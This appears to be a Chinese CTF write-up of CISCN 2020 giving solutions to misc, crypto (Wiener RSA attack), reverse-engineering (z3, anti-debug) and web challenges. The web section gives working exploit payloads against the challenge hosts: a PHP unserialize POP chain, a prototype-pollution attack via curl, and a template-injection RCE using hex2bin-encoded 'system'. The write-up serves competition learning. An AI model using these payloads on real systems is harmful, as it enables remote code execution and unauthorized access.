






# CISCN 2020

## misc

### 签到

第一次见只需要等着就能拿到的签到flag。

`flag{同舟共济扬帆起，乘风破浪万里航。}`

### the_best_ctf_game

拿到了个奇怪的文件。。github搜文件头找到了文件架构：[o-o-overflow/dc2020f-parallel-af-public][parallel-af]，怎奈代码跑不起来。

转头一看，另一位师傅做出来了。做出来的方式非常misc：



flag就明晃晃地写在文件里。

`flag{65e02f26-0d6e-463f-bc63-2df733e47fbe}`

### 电脑被黑

没啥技术难度的磁盘取证，被删的文件可以用[extundelete][extundelete]恢复，之后就是道没啥技术难度的逆向，解密恢复的flag文件。

加密算法是为flag的42个字符分别生成系数进行异或等运算。解密脚本如下：

```python
#!/usr/bin/env python3

v4 = []
v4t = 34
for i in range(43):
    v4.append(v4t)
    v4t += 34
    v4t &= 0xff

v5 = []
v5t = 0
for i in range(43):
    v5.append(v5t)
    v5t = (v5t + 2) & 0xf

with open('flag.txt', 'rb') as f:
    flag = bytearray(f.read())

for i in range(42, -1, -1):
    flag[i] = ((((flag[i]) ^ v4[i]) & 0xff) - v5[i]) & 0xff

print(flag)
```

`flag{e5d7c4ed-b8f6-4417-8317-b809fc26c047}`

## crypto

### bd

看到`e`很大，怀疑`d`较小，尝试使用低解密指数攻击。

<details>
<summary>脚本如下：</summary>
```python
#!/usr/bin/env python3

def rational_to_contfrac(x, y):
    '''
    Converts a rational x/y fraction into
    a list of partial quotients [a0, ..., an]
    '''
    a = x//y
    if a * y == x:
        return [a]
    else:
        pquotients = rational_to_contfrac(y, x - a * y)
        pquotients.insert(0, a)
        return pquotients


def convergents_from_contfrac(frac):
    '''
    computes the list of convergents
    using the list of partial quotients
    '''
    convs = []
    for i in range(len(frac)):
        convs.append(contfrac_to_rational(frac[0:i]))
    return convs


def contfrac_to_rational(frac):
    '''Converts a finite continued fraction [a0, ..., an]
    to an x/y rational.
    '''
    if len(frac) == 0:
        return (0, 1)
    elif len(frac) == 1:
        return (frac[0], 1)
    else:
        remainder = frac[1:len(frac)]
        (num, denom) = contfrac_to_rational(remainder)
        # fraction is now frac[0] + 1/(num/denom), which is
        # frac[0] + denom/num.
        return (frac[0] * num + denom, num)


def egcd(a, b):
    '''
    Extended Euclidean Algorithm
    returns x, y, gcd(a,b) such that ax + by = gcd(a,b)
    '''
    u, u1 = 1, 0
    v, v1 = 0, 1
    while b:
        q = a // b
        u, u1 = u1, u - q * u1
        v, v1 = v1, v - q * v1
        a, b = b, a - q * b
    return u, v, a


def gcd(a, b):
    '''
    2.8 times faster than egcd(a,b)[2]
    '''
    a, b = (b, a) if a < b else (a, b)
    while b:
        a, b = b, a % b
    return a


def modInverse(e, n):
    '''
    d such that de = 1 (mod n)
    e must be coprime to n
    this is assumed to be true
    '''
    return egcd(e, n)[0] % n


def totient(p, q):
    '''
    Calculates the totient of pq
    '''
    return (p-1)*(q-1)


def bitlength(x):
    '''
    Calculates the bitlength of x
    '''
    assert x >= 0
    n = 0
    while x > 0:
        n = n+1
        x = x >> 1
    return n


def isqrt(n):
    '''
    Calculates the integer square root
    for arbitrary large nonnegative integers
    '''
    if n < 0:
        raise ValueError('square root not defined for negative numbers')

    if n == 0:
        return 0
    a, b = divmod(bitlength(n), 2)
    x = 2**(a+b)
    while True:
        y = (x + n//x)//2
        if y >= x:
            return x
        x = y


def is_perfect_square(n):
    '''
    If n is a perfect square it returns sqrt(n),

    otherwise returns -1
    '''
    h = n & 0xF  # last hexadecimal "digit"

    if h > 9:
        return -1  # return immediately in 6 cases out of 16.

    # Take advantage of Boolean short-circuit evaluation
    if (h != 2 and h != 3 and h != 5 and h != 6 and h != 7 and h != 8):
        # take square root if you must
        t = isqrt(n)
        if t*t == n:
            return t
        else:
            return -1

    return -1


def hack_RSA(e, n):

    frac = rational_to_contfrac(e, n)
    convergents = convergents_from_contfrac(frac)

    for (k, d) in convergents:
        # check if d is actually the key
        if k != 0 and (e*d-1) % k == 0:
            phi = (e*d-1)//k
            s = n - phi + 1
            # check if the equation x^2 - s*x + n = 0
            # has integer roots
            discr = s*s - 4*n
            if(discr >= 0):
                t = is_perfect_square(discr)
                if t != -1 and (s+t) % 2 == 0:
                    print("\nHacked!")
                    return d


def main():

    n = 86966590627372918010571457840724456774194080910694231109811773050866217415975647358784246153710824794652840306389428729923771431340699346354646708396564203957270393882105042714920060055401541794748437242707186192941546185666953574082803056612193004258064074902605834799171191314001030749992715155125694272289
    e = 46867417013414476511855705167486515292101865210840925173161828985833867821644239088991107524584028941183216735115986313719966458608881689802377181633111389920813814350964315420422257050287517851213109465823444767895817372377616723406116946259672358254060231210263961445286931270444042869857616609048537240249
    d = hack_RSA(e, n)
    print("d=")
    print(d)


if __name__ == '__main__':
    main()
```
</details>

求出`d`的值，使用下列脚本解密flag：

```python
from Crypto.Util.number import *
d = 1485313191830359055093545745451584299495272920840463008756233
c = 37625098109081701774571613785279343908814425141123915351527903477451570893536663171806089364574293449414561630485312247061686191366669404389142347972565020570877175992098033759403318443705791866939363061966538210758611679849037990315161035649389943256526167843576617469134413191950908582922902210791377220066
n = 86966590627372918010571457840724456774194080910694231109811773050866217415975647358784246153710824794652840306389428729923771431340699346354646708396564203957270393882105042714920060055401541794748437242707186192941546185666953574082803056612193004258064074902605834799171191314001030749992715155125694272289
m = pow(c, d, n)
print(long_to_bytes(m))
```

`flag{d3752538-90d0-c373-cfef-9247d3e16848}`

## rev

### z3

主函数F5，扑面而来的线性方程组。往常都是转成matlab代码交给在线IDE跑的，这次正好借机学一学z3怎么用。

<details>
<summary>脚本如下：</summary>
```python
#!/usr/bin/env python3

from z3 import *

dst = [
    20247, 40182, 36315, 36518, 26921, 39185, 16546, 12094, 25270, 19330,
    18540, 16386, 21207, 11759, 10460, 25613, 21135, 24891, 18305, 27415,
    12855, 10899, 24927, 20670, 22926, 18006, 23345, 12602, 12304, 26622,
    19807, 22747, 14233, 24736, 10064, 14169, 35155, 28962, 33273, 21796,
    35185, 14877
]

v5 = [Int('v5_%d' % i) for i in range(42)]

sol = Solver()
sol.add(dst[0] == 34 * v5[3] + 12 * v5[0] + 53 * v5[1] + 6 * v5[2] + 58 * v5[4] + 36 * v5[5] + v5[6])
sol.add(dst[1] == 27 * v5[4] + 73 * v5[3] + 12 * v5[2] + 83 * v5[0] + 85 * v5[1] + 96 * v5[5] + 52 * v5[6])
sol.add(dst[2] == 24 * v5[2] + 78 * v5[0] + 53 * v5[1] + 36 * v5[3] + 86 * v5[4] + 25 * v5[5] + 46 * v5[6])
sol.add(dst[3] == 78 * v5[1] + 39 * v5[0] + 52 * v5[2] + 9 * v5[3] + 62 * v5[4] + 37 * v5[5] + 84 * v5[6])
sol.add(dst[4] == 48 * v5[4] + 14 * v5[2] + 23 * v5[0] + 6 * v5[1] + 74 * v5[3] + 12 * v5[5] + 83 * v5[6])
sol.add(dst[5] == 15 * v5[5] + 48 * v5[4] + 92 * v5[2] + 85 * v5[1] + 27 * v5[0] + 42 * v5[3] + 72 * v5[6])
sol.add(dst[6] == 26 * v5[5] + 67 * v5[3] + 6 * v5[1] + 4 * v5[0] + 3 * v5[2] + 68 * v5[6])
sol.add(dst[7] == 34 * v5[10] + 12 * v5[7] + 53 * v5[8] + 6 * v5[9] + 58 * v5[11] + 36 * v5[12] + v5[13])
sol.add(dst[8] == 27 * v5[11] + 73 * v5[10] + 12 * v5[9] + 83 * v5[7] + 85 * v5[8] + 96 * v5[12] + 52 * v5[13])
sol.add(dst[9] == 24 * v5[9] + 78 * v5[7] + 53 * v5[8] + 36 * v5[10] + 86 * v5[11] + 25 * v5[12] + 46 * v5[13])
sol.add(dst[10] == 78 * v5[8] + 39 * v5[7] + 52 * v5[9] + 9 * v5[10] + 62 * v5[11] + 37 * v5[12] + 84 * v5[13])
sol.add(dst[11] == 48 * v5[11] + 14 * v5[9] + 23 * v5[7] + 6 * v5[8] + 74 * v5[10] + 12 * v5[12] + 83 * v5[13])
sol.add(dst[12] == 15 * v5[12] + 48 * v5[11] + 92 * v5[9] + 85 * v5[8] + 27 * v5[7] + 42 * v5[10] + 72 * v5[13])
sol.add(dst[13] == 26 * v5[12] + 67 * v5[10] + 6 * v5[8] + 4 * v5[7] + 3 * v5[9] + 68 * v5[13])
sol.add(dst[14] == 34 * v5[17] + 12 * v5[14] + 53 * v5[15] + 6 * v5[16] + 58 * v5[18] + 36 * v5[19] + v5[20])
sol.add(dst[15] == 27 * v5[18] + 73 * v5[17] + 12 * v5[16] + 83 * v5[14] + 85 * v5[15] + 96 * v5[19] + 52 * v5[20])
sol.add(dst[16] == 24 * v5[16] + 78 * v5[14] + 53 * v5[15] + 36 * v5[17] + 86 * v5[18] + 25 * v5[19] + 46 * v5[20])
sol.add(dst[17] == 78 * v5[15] + 39 * v5[14] + 52 * v5[16] + 9 * v5[17] + 62 * v5[18] + 37 * v5[19] + 84 * v5[20])
sol.add(dst[18] == 48 * v5[18] + 14 * v5[16] + 23 * v5[14] + 6 * v5[15] + 74 * v5[17] + 12 * v5[19] + 83 * v5[20])
sol.add(dst[19] == 15 * v5[19] + 48 * v5[18] + 92 * v5[16] + 85 * v5[15] + 27 * v5[14] + 42 * v5[17] + 72 * v5[20])
sol.add(dst[20] == 26 * v5[19] + 67 * v5[17] + 6 * v5[15] + 4 * v5[14] + 3 * v5[16] + 68 * v5[20])
sol.add(dst[21] == 34 * v5[24] + 12 * v5[21] + 53 * v5[22] + 6 * v5[23] + 58 * v5[25] + 36 * v5[26] + v5[27])
sol.add(dst[22] == 27 * v5[25] + 73 * v5[24] + 12 * v5[23] + 83 * v5[21] + 85 * v5[22] + 96 * v5[26] + 52 * v5[27])
sol.add(dst[23] == 24 * v5[23] + 78 * v5[21] + 53 * v5[22] + 36 * v5[24] + 86 * v5[25] + 25 * v5[26] + 46 * v5[27])
sol.add(dst[24] == 78 * v5[22] + 39 * v5[21] + 52 * v5[23] + 9 * v5[24] + 62 * v5[25] + 37 * v5[26] + 84 * v5[27])
sol.add(dst[25] == 48 * v5[25] + 14 * v5[23] + 23 * v5[21] + 6 * v5[22] + 74 * v5[24] + 12 * v5[26] + 83 * v5[27])
sol.add(dst[26] == 15 * v5[26] + 48 * v5[25] + 92 * v5[23] + 85 * v5[22] + 27 * v5[21] + 42 * v5[24] + 72 * v5[27])
sol.add(dst[27] == 26 * v5[26] + 67 * v5[24] + 6 * v5[22] + 4 * v5[21] + 3 * v5[23] + 68 * v5[27])
sol.add(dst[28] == 34 * v5[31] + 12 * v5[28] + 53 * v5[29] + 6 * v5[30] + 58 * v5[32] + 36 * v5[33] + v5[34])
sol.add(dst[29] == 27 * v5[32] + 73 * v5[31] + 12 * v5[30] + 83 * v5[28] + 85 * v5[29] + 96 * v5[33] + 52 * v5[34])
sol.add(dst[30] == 24 * v5[30] + 78 * v5[28] + 53 * v5[29] + 36 * v5[31] + 86 * v5[32] + 25 * v5[33] + 46 * v5[34])
sol.add(dst[31] == 78 * v5[29] + 39 * v5[28] + 52 * v5[30] + 9 * v5[31] + 62 * v5[32] + 37 * v5[33] + 84 * v5[34])
sol.add(dst[32] == 48 * v5[32] + 14 * v5[30] + 23 * v5[28] + 6 * v5[29] + 74 * v5[31] + 12 * v5[33] + 83 * v5[34])
sol.add(dst[33] == 15 * v5[33] + 48 * v5[32] + 92 * v5[30] + 85 * v5[29] + 27 * v5[28] + 42 * v5[31] + 72 * v5[34])
sol.add(dst[34] == 26 * v5[33] + 67 * v5[31] + 6 * v5[29] + 4 * v5[28] + 3 * v5[30] + 68 * v5[34])
sol.add(dst[35] == 34 * v5[38] + 12 * v5[35] + 53 * v5[36] + 6 * v5[37] + 58 * v5[39] + 36 * v5[40] + v5[41])
sol.add(dst[36] == 27 * v5[39] + 73 * v5[38] + 12 * v5[37] + 83 * v5[35] + 85 * v5[36] + 96 * v5[40] + 52 * v5[41])
sol.add(dst[37] == 24 * v5[37] + 78 * v5[35] + 53 * v5[36] + 36 * v5[38] + 86 * v5[39] + 25 * v5[40] + 46 * v5[41])
sol.add(dst[38] == 78 * v5[36] + 39 * v5[35] + 52 * v5[37] + 9 * v5[38] + 62 * v5[39] + 37 * v5[40] + 84 * v5[41])
sol.add(dst[39] == 48 * v5[39] + 14 * v5[37] + 23 * v5[35] + 6 * v5[36] + 74 * v5[38] + 12 * v5[40] + 83 * v5[41])
sol.add(dst[40] == 15 * v5[40] + 48 * v5[39] + 92 * v5[37] + 85 * v5[36] + 27 * v5[35] + 42 * v5[38] + 72 * v5[41])
sol.add(dst[41] == 26 * v5[40] + 67 * v5[38] + 6 * v5[36] + 4 * v5[35] + 3 * v5[37] + 68 * v5[41])

if sol.check() == sat:
    ret = sol.model()
    for i in range(42):
        print(chr(ret[v5[i]].as_long()), end = '')
    print()
else:
    print('oops')
```
<details>

`flag{7e171d43-63b9-4e18-990e-6e14c2afe648}`

### hyperthreading

主函数启动了3个线程，等待了其中的两个。剩下的一个是反调用的：

```c
while ( !IsDebuggerPresent() )
    ;
printf("debug!\n");
exit(0);
```

被等待的两个线程对输入的flag进行各种加密处理。比较烦的是代码里`jmp $+1`、`call $+1`遍地都是。靠patch可以解决问题，但是要注意`call $+1`会向栈上推值（`$+2`），所以就算能patch掉，对栈的异常操作也会导致反编译出问题。

反调还没完，两个线程都在不断的读`fs:[0x30] + 2`处的一个字节，并将其用于算法当中：

```asm
.text:004011B4  mov     ebx, large fs:30h
.text:004011BB  movzx   ebx, byte ptr [ebx+2]
```

鉴于这是个Windows 32位程序，`fs[0x30]`处是进程的PEB，`fs:[0x30] + 2`处是`PEB.BeingDebugged`标志（参考：[Terminus Project][terminus]）。鉴于我们在静态分析，直接假定这里的值为0（程序没被调试时运行一定是正常的），就可以恢复出算法了：

```python
#!/usr/bin/env python3

target = [
    0xDD, 0x5B, 0x9E, 0x1D, 0x20, 0x9E, 0x90, 0x91, 0x90, 0x90, 
    0x91, 0x92, 0xDE, 0x8B, 0x11, 0xD1, 0x1E, 0x9E, 0x8B, 0x51, 
    0x11, 0x50, 0x51, 0x8B, 0x9E, 0x5D, 0x5D, 0x11, 0x8B, 0x90, 
    0x12, 0x91, 0x50, 0x12, 0xD2, 0x91, 0x92, 0x1E, 0x9E, 0x90, 
    0xD2, 0x9F
]

for c in target:
    c -= 0x23
    c &= 0xff
    c ^= 0x23
    c = ((c << 2) & 0xff) ^ ((c >> 6) & 0xff)
    print(chr(c), end = '')
    #print(hex(c), end = ' ')

print()
```

题不难，就是为了让反编译器能工作，patch花了不少时间，以至于刚刚patch完看到了程序逻辑，大师傅已经做完了。大师傅永远是你大师傅。

`flag{a959951b-76ca-4784-add7-93583251ca92}`

## web

### babyunserialize

由于本题环境和wmctf的webweb很相似，因此套用同一个payload：

```php
<?php
namespace DB{
    abstract class Cursor  implements \IteratorAggregate {}
}


namespace DB\SQL{
    class Mapper extends \DB\Cursor{
        protected
            $props=["quotekey"=>"system"],
            $adhoc=["ls -al"=>["expr"=>""]],
            $db;
        function offsetExists($offset){}
        function offsetGet($offset){}
        function offsetSet($offset, $value){}
        function offsetUnset($offset){}
        function getIterator(){}
        function __construct($val){
            $this->db = $val;
        }
    }
}
namespace CLI{
    class Agent {
        protected
            $server="";
        public $events;
        public function __construct(){
            $this->events=["disconnect"=>array(new \DB\SQL\Mapper(new \DB\SQL\Mapper("")),"find")];
            $this->server=&$this;


        }
    };
    class WS{}
}
namespace {
    echo urlencode(serialize(array(new \CLI\WS(),new \CLI\Agent())));
}
```

但执行过程中发现`system`被ban了，`passthru`也被ban了，试图进`phpinfo`里看看，但把这个payload中`$adhoc`的`ls -al`置空会报一个错：



因此把`ls -al`的位置改成`1`执行`phpinfo`。出来了一部分：



然后将`1`改成了`-1`成功执行完整`phpinfo`（参考：[`phpinfo()` 文档][phpinfo]），搜索flag发现有搜到：



最终payload：`http://XXXXXXXX.ichunqiu.com/?flag=a%3A2%3A%7Bi%3A0%3BO%3A6%3A%22CLI%5CWS%22%3A0%3A%7B%7Di%3A1%3BO%3A9%3A%22CLI%5CAgent%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00server%22%3Br%3A3%3Bs%3A6%3A%22events%22%3Ba%3A1%3A%7Bs%3A10%3A%22disconnect%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A13%3A%22DB%5CSQL%5CMapper%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00props%22%3Ba%3A1%3A%7Bs%3A8%3A%22quotekey%22%3Bs%3A7%3A%22phpinfo%22%3B%7Ds%3A8%3A%22%00%2A%00adhoc%22%3Ba%3A1%3A%7Bi%3A-1%3Ba%3A1%3A%7Bs%3A4%3A%22expr%22%3Bs%3A0%3A%22%22%3B%7D%7Ds%3A5%3A%22%00%2A%00db%22%3BO%3A13%3A%22DB%5CSQL%5CMapper%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00props%22%3Ba%3A1%3A%7Bs%3A8%3A%22quotekey%22%3Bs%3A7%3A%22phpinfo%22%3B%7Ds%3A8%3A%22%00%2A%00adhoc%22%3Ba%3A1%3A%7Bi%3A-1%3Ba%3A1%3A%7Bs%3A4%3A%22expr%22%3Bs%3A0%3A%22%22%3B%7D%7Ds%3A5%3A%22%00%2A%00db%22%3Bs%3A0%3A%22%22%3B%7D%7Di%3A1%3Bs%3A4%3A%22find%22%3B%7D%7D%7D%7D`

`flag{fb96e72f-aa1d-4d47-b5f5-67d6fc313293}`

### easyphp

开环境是一个php审计，大致流程：开启一个子进程，如果该进程崩了就进else if，并且打印phpinfo，如果正常则进else，在这里有个`call_user_func_array`可以控制执行函数和参数，但参数限定了三个这里没法直接调用系统命令函数。

直接执行系统命令走不通，考虑到题干“怎么可能让进程崩掉”和php7.4.8的环境，可能考察的是调用该版本内置的php函数造成进程崩溃即php fatal error。将php内置函数用burpsuite传一遍发现有几个函数函数可以让进程崩溃进到phpinfo中，这里选择`is_callable`函数，phpinfo中有flag。

payload：`http://XXXXXXXX.ichunqiu.com/?a=is_callable`





`flag{4b8e3e8d-837c-4d43-88b9-8a87010b1edc}`

### littlegame

将附件下载下来是一个nodejs程序，同时加载进一个`set-value`模块，上网搜索发现`set-value`有CVE-2019-10747原型链污染的漏洞。本地跑起程序然后对路由进行审计，整个过程从`/SpawnPoint`开始，在`/Privilege`中调用了漏洞方法`setFn()`，这里的的`NewAttributeKey`和`NewAttributeValue`都可以控制，那么直接污染`__proto__`将`Admin`追加一个属性，使其在`/DeveloperControlPanel`路由中可以通过验证输出flag。

payload（curl版）：

```
$ curl -c cookies.txt http://XXXXXXXX.ichunqiu.com:8888/SpawnPoint
Let's begin!
$ curl -b cookies.txt -H 'Content-Type: application/json' -d '{"NewAttributeKey":"__proto__.password4","NewAttributeValue":"123"}' http://XXXXXXXX.ichunqiu.com:8888/Privilege
Let's have a check!
$ curl -b cookies.txt -H 'Content-Type: application/json' -d '{"key":"password4","password":"123"}' http://XXXXXXXX.ichunqiu.com:8888/DeveloperControlPanel
flag{7fae5d9b-2260-4472-a821-96ec1d6912b8}
$
```

`flag{7fae5d9b-2260-4472-a821-96ec1d6912b8}`

### rceme

经过查阅是zzzcms的一个改编源码。主要漏洞点在于`eval`函数的参数没采用白名单机制，造成参数绕过验证。这里没有过滤`hex2bin`，因此将`system`十六进制编码后用`hex2bin`动态拼接成`system('ls')`来执行系统命令。

payload: `{if:(hex2bin(‘73797374656d’))(‘ls‘)}{end if}`

`flag{423975f5-e1d3-481a-9165-f297ed481cfe}`

<!-- References -->

[parallel-af]: https://github.com/o-o-overflow/dc2020f-parallel-af-public
[extundelete]: http://extundelete.sourceforge.net/
[terminus]: http://terminus.rewolf.pl/terminus/structures/ntdll/_PEB_x86.html
[phpinfo]: https://www.php.net/manual/en/function.phpinfo.php

